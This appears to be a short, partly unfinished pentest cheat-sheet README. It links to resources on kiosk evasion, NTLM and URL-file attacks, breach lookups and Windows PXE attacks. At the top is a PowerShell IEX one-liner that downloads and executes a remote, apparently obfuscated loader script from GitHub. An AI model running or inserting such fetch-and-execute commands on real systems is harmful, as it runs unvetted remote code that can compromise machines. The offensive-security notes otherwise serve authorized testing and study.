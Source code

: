 ### Legitimate files for security audit

$key need to be set

```
IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/TikTakTech/Salsa/main/KP_Obf_LOAD_Menu.ps1')
```

# CYBER CHEAT SHEET

---
### DIVERS
---
**Global Ressources :**
- https://viperone.gitbook.io/pentest-everything
- https://book.hacktricks.xyz/
- https://atomicredteam.io/atomics/

**Kiosk evasion** : file access from browser or openfile dialogbox
```
file://c:/windows/system32/calc.exe
```

**Recent user activity**
```
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Recent
```

**Url file attack**
- https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication
- https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/forced-coercion/url-file-attack

**NTLM**
- https://www.scip.ch/en/?labs.20210909

<br/><br/>

---
### OSINT - PASSWORD
---

- https://haveibeenpwned.com/
- https://breachdirectory.org/

<br/><br/>

---
### RECONNAISSANCE - ENUMERATION
---

Todo

<br/><br/>

---
### MEMCM - MDT - PXE
*******

Ressources :

- https://www.secura.com/blog/attacking-mitigating-windows-pxe-environments
- https://www.netspi.com/blog/technical-blog/network-penetration-testing/attacks-against-windows-pxe-boot-images/
- https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/
- https://connect.ed-diamond.com/MISC/misc-103/compromission-des-postes-de-travail-grace-a-laps-et-pxe
- https://www.acceis.fr/sattaquer-aux-images-pxe/
- https://github.com/wavestone-cdt/powerpxe
- https://tryhackme.com/r/room/breachingad
